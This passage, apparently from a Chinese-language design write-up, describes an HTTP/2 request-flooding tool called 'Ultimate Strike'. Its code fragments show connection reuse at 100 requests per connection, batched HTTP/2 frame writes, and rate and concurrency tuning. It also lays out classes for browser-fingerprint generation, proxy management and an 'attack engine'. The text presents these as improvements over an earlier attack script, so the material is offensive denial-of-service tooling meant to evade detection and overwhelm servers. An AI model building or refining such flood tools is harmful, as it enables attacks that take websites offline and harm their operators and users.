 ```javascript
    for (let i = 0; i < requestCount; i++) {
        const headers = this.generateHTTP2Headers();
        requests.push(HTTP2FrameHandler.encode(streamId, 1, packed, flags));
        streamId += 2;
    }
}
```

---

### 创新点 5: 性能优化

**多维度优化**：

1. **连接复用**：
```javascript
// 单连接发送多个请求
CONFIG.requestsPerConnection = 100;

// 而不是每次请求都建立新连接
```

2. **批量请求**：
```javascript
// 一次性生成多个请求
for (let i = 0; i < requestCount; i++) {
    requests.push(HTTP2FrameHandler.encode(...));
}
tlsSocket.write(Buffer.concat(requests));  // 批量发送
```

3. **智能速率控制**：
```javascript
const delay = Math.max(0, 1000 / this.rateLimit);
// 动态调整延迟，而非固定值
```

4. **并发优化**：
```javascript
const concurrency = Math.max(1, Math.floor(this.rateLimit / 10));
// 根据速率自动计算最优并发数
```

---

### 创新点 6: 模块化设计

**对比原有脚本的架构改进**：

**原有脚本**：
- 过程式代码，难以维护
- 全局变量污染
- 功能耦合严重

**Ultimate Strike**：
```javascript
// 清晰的类结构
class FingerprintGenerator { }  // 指纹生成
class ProxyManager { }          // 代理管理
class HTTP2FrameHandler { }     // Frame处理
class UltimateStrikeEngine { }  // 攻击引擎

// 每个类职责单一
// 可独立测试和复用
```
